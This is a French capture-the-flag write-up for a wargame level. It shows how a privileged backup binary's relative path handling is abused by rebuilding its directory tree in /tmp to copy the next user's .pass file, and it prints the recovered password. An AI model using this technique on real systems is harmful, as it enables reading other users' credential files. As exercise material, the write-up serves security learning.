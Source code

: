 # Level 08

A la racine du level08, on découvre le binaire level08 et un dossier backups qui contient un .log.

Après la traduction du binaire, on s'aperçoit que celui-ci prend un argument qui sera utilisé comme fichier à copier dans le dossier backups présent dans le répertoire courant.

```shell
> ./level08 level08 
> ls backups/
level08
```

On cherche donc à copier le .pass du level09 dans backups.

```shell
> ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Comme montré ci dessus, ainsi que dans le fichier source, le programme cherche le fichier .pass dans l'arborescence précisé depuis backups. Cependant, on ne peut créer cette arborescence dans le fichier existant faute de permissions, on va donc essayer de recréer cet environement dans /tmp.

```shell
> cd /tmp
> mkdir -p backups/home/users/level09
> ~/./level08 /home/users/level09/.pass
> cat backups//home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

